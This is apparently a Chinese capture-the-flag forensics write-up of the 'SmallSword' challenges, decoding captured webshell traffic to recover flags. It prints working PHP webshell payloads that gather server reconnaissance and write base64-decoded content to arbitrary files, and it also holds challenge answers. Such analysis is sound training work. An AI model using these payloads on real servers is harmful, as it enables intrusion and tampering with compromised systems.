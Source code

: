```
6ea280898e404bfabd0ebb702327b19f=@ini_set("display_errors", "0");@set_time_limit(0);echo "->|";$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D}	";if(substr($D,0,1)!="/"){foreach(range("A","Z")as $L)if(is_dir("{$L}:"))$R.="{$L}:";}else{$R.="/";}$R.="	";$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";$s=($u)?$u["name"]:@get_current_user();$R.=php_uname();$R.="	{$s}";echo $R;;echo "|<-";die();

```

flag{6ea280898e404bfabd0ebb702327b19f}

### SmallSword_2

> 攻击者留存的值是__?(答案示例：d1c3f0d3-68bb-4d85-a337-fb97cf99ee2e)

![image-20240320215017715](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240320215017715.png?imageSlim)

对请求实体进行解码，得到：

```
0x72b3f341e432=RDovcGhwU3R1ZHkvUEhQVHV0b3JpYWwvV1dXL3NxbGlpL0xlc3MtNy9oYWNrZXIudHh0&0xe9bb136e8a5e9=YWQ2MjY5YjctM2NlMi00YWU4LWI5N2YtZjI1OTUxNWU3YTkxIA==&6ea280898e404bfabd0ebb702327b19f=@ini_set("display_errors", "0");@set_time_limit(0);echo "->|";echo @fwrite(fopen(base64_decode($_POST["0x72b3f341e432"]),"w"),base64_decode($_POST["0xe9bb136e8a5e9"]))?"1":"0";;echo "|<-";die();
```

`YWQ2MjY5YjctM2NlMi00YWU4LWI5N2YtZjI1OTUxNWU3YTkxIA==`base64解码得到flag

flag{ad6269b7-3ce2-4ae8-b97f-f259515e7a91}

(这题有点不明所以)

### SmallSword_3

> 攻击者下载到的flag是______________?(答案示例：flag3{uuid})

![image-20240320215518142](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240320215518142.png?imageSlim)

把tcp130服务器应答的内容提取出来

![image-20240320221704594](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240320221704594.png?imageSlim)

根据文件头判断为exe文件，修改后缀名

![image-20240320221907689](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240320221907689.png?imageSlim)

放入云沙箱发现其释放了一个jpg文件

![image-20240320223051040](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240320223051040.png?imageSlim)

实际为png文件，进行宽高爆破后得到下部flag

![image-20240320223159110](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240320223159110.png?imageSlim)

flag3{8f0dffac-5801-44a9-bd49-e66192ce4f57}

## tcpdump
